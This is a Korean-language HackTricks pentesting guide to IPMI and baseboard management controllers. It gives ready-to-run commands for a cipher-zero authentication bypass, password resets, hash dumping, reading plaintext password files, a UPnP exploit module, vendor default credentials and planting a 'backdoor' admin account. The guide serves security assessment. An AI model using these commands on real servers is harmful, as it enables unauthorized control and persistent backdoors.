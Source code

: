 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 <strong>제로에서 영웅까지 AWS 해킹 배우기</strong>를 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 PR을 제출**하세요.

</details>

## 기본 정보

### **IPMI 개요**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)**는 운영 체제나 전원 상태와 관계없이 컴퓨터 시스템의 원격 관리 및 모니터링을 표준화된 방식으로 제공합니다. 이 기술을 사용하면 시스템 관리자가 시스템을 원격으로 관리할 수 있으며, 시스템이 꺼져 있거나 응답하지 않을 때에도 특히 유용합니다. 다음과 같은 경우에 특히 유용합니다.

- Pre-OS 부팅 구성
- 전원 관리
- 시스템 장애 복구

IPMI는 온도, 전압, 팬 속도 및 전원 공급 장치를 모니터링하고, 인벤토리 정보를 제공하며, 하드웨어 로그를 검토하고, SNMP를 통해 경고를 보내는 기능을 제공합니다. 작동에 필요한 주요 요소는 전원 공급원과 LAN 연결입니다.

1998년 Intel에 의해 도입된 이후, IPMI는 다양한 공급업체에서 지원되어 원격 관리 기능을 향상시켰으며, 특히 버전 2.0에서는 LAN을 통한 시리얼 지원을 제공했습니다. 주요 구성 요소는 다음과 같습니다.

- **Baseboard Management Controller (BMC):** IPMI 작업을 위한 주요 마이크로 컨트롤러입니다.
- **통신 버스 및 인터페이스:** 내부 및 외부 통신을 위한 ICMB, IPMB 및 로컬 및 네트워크 연결용 다양한 인터페이스를 포함합니다.
- **IPMI 메모리:** 로그 및 데이터 저장을 위한 메모리입니다.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**기본 포트**: 623/UDP/TCP (보통 UDP에서 실행되지만 TCP에서 실행될 수도 있습니다)

## 열거

### 탐색
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
다음을 사용하여 **버전**을 **식별**할 수 있습니다:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI 취약점

IPMI 2.0의 영역에서, Dan Farmer에 의해 **암호 유형 0**을 통한 중대한 보안 취약점이 발견되었습니다. 이 취약점은 [Dan Farmer의 연구](http://fish2.com/ipmi/cipherzero.html)에서 자세히 설명되어 있으며, 유효한 사용자가 대상인 경우 어떤 비밀번호를 제공하더라도 무단 액세스를 가능하게 합니다. 이 취약점은 HP, Dell, Supermicro와 같은 제조업체의 다양한 BMC에서 발견되었으며, 모든 IPMI 2.0 구현에서 보편적인 문제임을 시사합니다.

### **Cipher 0를 통한 IPMI 인증 우회**

이 취약점을 탐지하기 위해 다음 Metasploit 보조 스캐너를 사용할 수 있습니다:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
이 취약점을 악용하기 위해 `ipmitool`을 사용하여 아래와 같이 시연할 수 있으며, 이를 통해 사용자 비밀번호의 목록화와 수정이 가능합니다:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP 인증 원격 비밀번호 해시 검색**

이 취약점은 기존 사용자 이름에 대한 소금 처리된 해시된 비밀번호 (MD5 및 SHA1)를 검색할 수 있게 합니다. 이 취약점을 테스트하기 위해 Metasploit은 다음 모듈을 제공합니다:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI 익명 인증**

많은 BMC(Bare Metal Controller)에서 기본 구성으로 "익명" 액세스가 허용됩니다. 이는 사용자 이름과 비밀번호가 없는 문자열로 특징 지어집니다. 이 구성은 `ipmitool`을 사용하여 명명된 사용자 계정의 비밀번호를 재설정하는 데 악용될 수 있습니다:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI 평문 암호**

IPMI 2.0에서의 중요한 설계 선택 사항은 인증 목적으로 BMC 내에 평문 암호를 저장해야 한다는 것입니다. Supermicro는 이러한 암호를 `/nv/PSBlock` 또는 `/nv/PSStore`와 같은 위치에 저장하는 것으로 알려져 있으며, 이는 중대한 보안 문제를 일으킵니다:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP 취약점**

Supermicro의 IPMI 펌웨어에 포함된 UPnP SSDP 수신기는 특히 UDP 포트 1900에서 심각한 보안 위험을 초래합니다. Intel SDK for UPnP Devices 버전 1.3.1의 취약점은 [Rapid7의 공개](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play)에 자세히 설명되어 있으며, BMC에 대한 루트 액세스를 허용합니다.
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### 무차별 대입 공격

**HP는 Integrated Lights Out (iLO)** 제품의 **기본 암호를 제조 과정에서 무작위로 설정**합니다. 이는 다른 제조업체와 대조적으로 **고정된 기본 자격 증명**을 사용하는 경향이 있는 것과 대조됩니다. 다양한 제품의 기본 사용자 이름과 암호에 대한 요약은 다음과 같습니다:

- **HP Integrated Lights Out (iLO)**는 **공장에서 무작위로 생성된 8자리 문자열**을 기본 암호로 사용하여 더 높은 보안 수준을 제공합니다.
- **Dell의 iDRAC, IBM의 IMM** 및 **Fujitsu의 Integrated Remote Management Controller**와 같은 제품은 "calvin", "PASSW0RD" (0으로 대체), "admin"과 같이 쉽게 추측 가능한 암호를 사용합니다.
- 마찬가지로 **Supermicro IPMI (2.0), Oracle/Sun ILOM** 및 **ASUS iKVM BMC**도 간단한 기본 자격 증명을 사용하며, "ADMIN", "changeme", "admin"이 각각 암호로 사용됩니다.


## BMC를 통한 호스트 접근

Baseboard Management Controller (BMC)에 대한 관리 권한을 획득하면 호스트 운영 체제에 접근할 수 있는 다양한 경로가 열립니다. 간단한 접근 방법은 BMC의 키보드, 비디오, 마우스 (KVM) 기능을 악용하는 것입니다. 이는 호스트를 GRUB를 통해 루트 쉘로 재부팅하거나 구조용 디스크로 설정된 가상 CD-ROM에서 부팅하여 수행할 수 있습니다. 이러한 방법을 통해 호스트의 디스크를 직접 조작할 수 있으며, 백도어 삽입, 데이터 추출 또는 보안 평가에 필요한 모든 작업을 수행할 수 있습니다. 그러나 이는 호스트를 재부팅해야 하는 단점이 있습니다. 재부팅하지 않고 실행 중인 호스트에 접근하는 것은 더 복잡하며, 호스트의 구성에 따라 다양합니다. 호스트의 물리적 또는 직렬 콘솔이 로그인된 상태로 유지되면 BMC의 KVM 또는 serial-over-LAN (sol) 기능을 통해 쉽게 탈취될 수 있습니다. i2c 버스와 Super I/O 칩과 같은 공유 하드웨어 자원의 악용에 대한 탐색은 추가적인 조사가 필요한 분야입니다.

## 호스트에서 BMC로 백도어 삽입

BMC가 장착된 호스트를 침해한 후 **로컬 BMC 인터페이스를 활용하여 백도어 사용자 계정을 삽입**하여 서버에 지속적인 존재를 만들 수 있습니다. 이 공격은 침해된 호스트에 **`ipmitool`**이 설치되어 있고 BMC 드라이버 지원이 활성화되어 있는 경우에만 가능합니다. 다음 명령은 호스트의 로컬 인터페이스를 사용하여 BMC에 새 사용자 계정을 삽입하는 방법을 보여줍니다. 이 기술은 Linux, Windows, BSD 및 심지어 DOS를 포함한 다양한 운영 체제에 적용할 수 있습니다.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `포트:623`

## 참고 자료

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)을 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 기법을 공유**하세요.

</details>
